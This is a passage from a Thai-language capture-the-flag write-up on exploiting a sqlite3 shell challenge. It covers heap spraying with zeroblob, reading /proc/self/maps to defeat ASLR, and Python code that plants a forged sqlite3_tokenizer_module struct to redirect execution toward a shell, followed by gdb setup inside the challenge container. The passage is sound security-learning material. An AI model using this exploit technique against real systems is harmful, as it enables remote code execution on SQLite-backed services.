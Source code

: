 ```sql
select replace(hex(zeroblob(1000)), '00', 'ANYA')
```

Ref: https://stackoverflow.com/a/51792334

และอีกความยากคือ ASLR ของ Linux ที่เราจำเป็นจะต้อง bypass เช่นกัน ASLR โดยเบื่องต้นจะเป็นการ random base memory ของแต่ละ segment ทำให้เราไม่สามารถเดาได้ว่าข้อมูลที่เราใส่เข้าไปเยอะ ๆ ใน heap อยู่ตรงไหน

แต่เดียวก่อนเรามี `.read` ที่สามารถนำไปอ่าน `/proc/self/maps` file โดยด้านใน file นี้จะมี memory mapping ของแต่ละ segment อยู่ด้วยทำให้เราสามารถ bypass ASLR ได้อย่างง่ายดาย ดังรูปต่อไปนี้

![.read](https://i.imgur.com/F31eNTD.png)

จากนั้นเราก็แค่ต้องเขียน script เพื่อเข้าไปอ่าน เช่น

```python
def execute(sql, last=False):
    global s
    s.sendline(sql)
    return s.readuntil("> ")

s = Sock(host, 1433)
s.readuntil(">")

s.sendline(".read /proc/self/maps")
maps = s.readuntil("> ")[:-2].splitlines()
libc_addr = int(maps[23][:12], 16)
heap_addr = int(maps[6][:12], 16)
```

ต่อไปเราก็ทำการยัด malicious `sqlite3_tokenizer_module` object ใส่ heap ซะดัง script ต่อไปนี้ (ไม่รู้ต้อง jmp ไปไหน ให้ไป `0xdeadbeef` ก่อนเลย)

```python
spawn_shell_addr = 0xdeadbeef

shell_struct =  struct.pack("<Q", 0)
shell_struct += struct.pack("<Q", spawn_shell_addr)
shell_struct += struct.pack("<Q", spawn_shell_addr)
shell_struct += struct.pack("<Q", spawn_shell_addr)
shell_struct += struct.pack("<Q", spawn_shell_addr)
shell_struct += struct.pack("<Q", spawn_shell_addr)

execute(f"select replace(hex(zeroblob(31337)), '00', x'414E5941414E5941{shell_struct.hex()}414E5941414E5941');")
```

หลังจากยัดใส่ไปแล้วเราจะรู้ได้ยังไง ว่ามันอยู่ตรงไหนของ heap วิธีของผมคือเข้าไป debug ใน container โจทย์เลยจบ ๆ ไป (ก่อนเข้าไปดู ให้ยิง step ด้านบนและเปิด connection ค้างไว้ก่อน) ดังนี้

```
root@team3:~# docker exec -ti -u root sql_demo bash
root@56bddfab4226:/data# apt install procps gdb
root@56bddfab4226:/data# ps -A
    PID TTY          TIME CMD
      1 ?        00:00:00 sh
      7 ?        00:00:00 socat
   2812 pts/2    00:00:00 bash
   2839 pts/0    00:00:00 bash
   2897 ?        00:00:00 socat
   2898 ?        00:00:00 python
   2902 ?        00:00:00 socat
   2903 ?        00:00:00 python
   2904 pts/0    00:00:00 ps
```

